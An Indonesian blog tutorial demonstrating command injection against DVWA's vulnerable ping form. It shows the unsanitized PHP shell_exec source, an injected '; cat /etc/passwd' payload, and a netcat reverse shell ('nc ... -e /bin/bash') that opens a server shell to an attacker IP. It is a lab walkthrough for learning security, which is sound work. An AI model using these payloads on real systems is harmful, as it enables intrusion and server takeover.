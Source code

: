 +++
title = "DVWA - Command Injection"
date = 2024-10-13T17:04:53+07:00
cover = ""
summary = "Command injection is a simple yet still pretty common and relevant vulnerability in the real world even nowadays..."
tags = [ "DVWA", "web", "hacking", "command injection", "reverse shell" ]
categories = "command injection"
+++

Sesuai dengan namanya, ***Command Injection*** adalah kerentanan pada aplikasi web yang memungkinkan seorang penyerang dapat meng-*execute* perintah-perintah sistem operasi. Misalnya, *commands* sistem operasi Linux ada **`pwd`**, **`ls`**, **`cat`**, dan lain sebagainya. *Command injection* dapat terjadi disebabkan oleh tidak kurangnya perhatian seorang developer web terhadap **validasi input**.[^1]

Untuk membuktikan, kita mula-mula akan melihat demonstrasinya command injection terlebih dahulu melalui DVWA yang sudah kita *install* dan *set up* di artikel sebelumnya. Setelah login ke DVWA dengan credensial default, <mark> **admin:password**</mark>, pergi ke menu **Command Injection**. Di sana, ada *form* **`ping`** dan kita bisa meng-*input*-kan *ip address* untuk di-**`ping`**. Kita bisa coba dengan memasukkan *ip address* komputer kita dan nanti *output* **`ping`**-nya akan tampil di bawah *form* tersebut.

<div style="display: flex; justify-content: center;">
  <video width="80%" controls autoplay loop muted>
    <source src="/commandinjection/vid1.mp4" type="video/mp4">
  </video>
</div>

Sekarang, kita akan lihat *source code* yang ada di belakangnya, berikut:

> **Notes:** *Source code*-nya bisa dilihat di bagian bawah halaman website pada bagian **"View Source"**

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

Perhatikan bahwa pada variable **`$cmd`** yang mengambil input dari *user* untuk kemudian dieksekusi, yaitu $cmd = **`shell_exec( 'ping  ' . $target );`** jika DVWA di-host di server Windows dan **`$cmd = shell_exec( 'ping  -c 4 ' . $target );`** jika DVWA di-*deploy* di Linux, tidak ada validasi / sanitasi *input*-nya. Itu artinya, kita dapat melakukan *command injection* dengan mem-*bypass* perintah **`ping`** di server dengan karakter yang umum digunakan untuk melakukan serangan *command injection*, yaitu *semicolon* **(:)** sehingga *attacker* dapat memberikan perintah lain ke server.

<mark> Karakter *semicolon* **(;)** adalah sebuah *standard item* dalam *environment* UNIX/Linux untuk memisahkan *commands*</mark>.[^2]

Misalnya, saya ingin melihat isi file **`/etc/passwd`** di server, saya dapat menambahkan karakter semicolon **(;)** yang diikuti dengan perintah **`cat /etc/passwd`** setelah menuliskan *ip address* pada *form* **`ping`** tersebut:

{{< collapse summary="**Info: /etc/passwd**" open=false >}}

File **`/etc/passwd`** dalam sistem operasi linux menyimpan semua data user yang terdaftar di sistem operasi tersebut, baik *system/service user* seperti **www-data**, **mysql**, **sshd**, dan lainnya maupun *login user* seperti saya sendiri sebagai pengguna komputer.

Sebagai ilustrasi, dalam mesin saya, berikut adalah isi file **`/etc/passwd`**-nya:

![ss1](/commandinjection/ss1.png "/etc/passwd")

{{< /collapse >}}

![ss2](/commandinjection/ss2.png "command injection cat /etc/passwd")

Kita bisa lihat *output* yang ditampilkan di website, mula-mula perintah **`ping -c 4 192.168.0.109`** dieksekusi (menge-**`ping`** / mengirimkan paket **ICMP** - *Internet Control Message Protocol* ke *ip address* 192.168.0.109 ) terlebih dahulu ke server, kemudian perintah **`cat /etc/passwd`** dieksekusi setelahnya.

Atau jika kita ingin perintahnya lebih sederhana, kita bisa hanya mengetikkan perintah **`; cat /etc/passwd`** tanpa harus mengetikkan ip address-nya terlebih dahulu karena tadi, fungsi karakter *semicolon* adalah memisahkan dua perintah atau lebih, jadi perintah pertama akan dieksekusi (jika ada) dan kemudian perintah kedua akan dieskekusi.

![ss3](/commandinjection/ss3.png "simpler command injection cat /etc/passwd")

Sekarang kita paham bahwa dalam konteks ini, kerentanan *command injection* di website mengakibatkan *attacker* dapat mengeksekusi perintah sistem operasi apapun dari website. Itu juga berarti bahwa *attacker* dapat melakukan [***reverse shell***](https://integrasolusi.com/blog/pentesting-perbandingan-bind-shell-dan-reverse-shell/) untuk mendapatkan *shell* server. Ketika *attacker* sudah berhasil mendapatkan *shell*, itu artinya server sudah berhasil "dibajak". 

Untuk demonstrasi *reverse shell*, saya akan menggunakan [**`netcat`**](https://www.geeksforgeeks.org/introduction-to-netcat/):

Pertama, kita perlu mengecek / memastikan dulu bahwa **`netcat`** / **`nc`** ter-*install* di dalam di server dengan mengetikkan perintah berikut di *form* **`ping`**:

```shell
; whereis nc
```

![ss4](/commandinjection/ss4.png "checking netcat in the server")

**`Netcat`** ada di dalam server. Kita bisa melakukan *reverse shell* sederhana dengan **`netcat`**. 

Mula-mula, kita jalankan **`netcat`** di komputer kita (sebagai *attacker*) terlebih dahulu untuk melakukan *listening* paket:

```shell
nc -lvnp 1234
```

> **Keterangan:**  
> - <mark> -l</mark> : melakukan *listening*.
> - <mark> -v</mark> : melakukan *verbosity*.
> - <mark> -n</mark> : *ip address* tanpa DNS.
> - <mark> -p</mark> : port yang akan melakukan *listening*.
> - <mark> 1234</mark> : nomor port-nya.  
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

Perintah di server (di *form* **`ping`**):

```shell
nc 192.168.0.109 1234 -e /bin/bash
```

> **Keterangan:**  
> - <mark> 192.168.0.109</mark> : *ip address attacker*.
> - <mark> 1234</mark> : port *attacker* yang sedang *listening*.
> - <mark> -e</mark> : *binary* / perintah yang mau dieksekusi.
> - <mark> /bin/bash</mark> : memberi akses BASH shell ke *attacker*. 
> 
> Untuk info lebih lanjut, bisa baca-baca di **`man nc`**.

<div style="display: flex; justify-content: center;">
  <video width="100%" controls autoplay loop muted>
    <source src="/commandinjection/vid2.mp4" type="video/mp4">
  </video>
</div>

Dan kita berhasil mendapatkan *shell* server-nya sebagai user **www-data**.


[^1]: https://owasp.org/www-community/attacks/Command_Injection
[^2]: https://www.ibm.com/support/pages/meaning-semi-colon-colon-unix-script-sterling-gentranserver-unix
